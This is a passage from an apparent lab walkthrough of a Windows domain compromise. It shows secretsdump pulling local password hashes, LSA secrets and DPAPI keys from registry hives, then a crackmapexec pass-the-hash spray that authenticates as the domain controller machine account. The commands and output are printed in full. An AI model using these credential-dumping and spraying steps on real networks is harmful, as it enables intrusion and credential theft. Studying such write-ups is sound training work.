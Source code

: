 The information is dumped into the `share` we created. We then extract the `hashes` from this dump using Impacket’s `secretsdump.py`.

```bash
impacket-secretsdump -system SYSTEM -security SECURITY -sam SAM LOCAL
```

Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:6370e8f7f3d65aadf5d52c02e4f3dbd92c44e3eadea2d7d9c27c718ce527538dc41e5b967c76ba8749f8ff302884abef0c3e1d6aa937965dbe69f02a5fb3dc8cc21997701834dd231c740007ed8c18049206ffb74a364e18be18b57c538ce808b8fc31183887aa10a5b9c1e272dd34023102f397895354fd04c704338889041b2e1040d1a2ee9c085fc63eb97ad7b8e2da5b91db13d0415f8af70970832bece87319300e35c99b02e3677eca9836a8dd5c7db522ce1092ec3533f2917a3b7e7287eedec6d422aff78121bd0f00b39126e914196bfdf9edd61390f9a6b6be114472c0551b345ac505152af04734654dc3
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b9dd4c7c72ad5d5dacbff4590a8426cc
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[*] Cleaning up...
```

At this stage we obtain the `hashes` of user passwords, but only from the `local system`. What we really need are the `hashes` of the `domain accounts`. The hash of particular interest is the one belonging to the `Domain Controller`, which is fairly likely to be the `$MACHINE.ACC` account.

Next, we perform a `password spraying attack` with the `$MACHINE.ACC hash` against the list of domain users we previously saved in `users.txt`.

```bash
crackmapexec smb 10.0.4.18 -u users.txt -H 'b9dd4c7c72ad5d5dacbff4590a8426cc' --continue-on-success --no-bruteforce
```

Info:
```
SMB         10.0.4.18       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\Guest:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\krbtgt:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:b9dd4c7c72ad5d5dacbff4590a8426cc 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\bmark0:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\otara1:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
```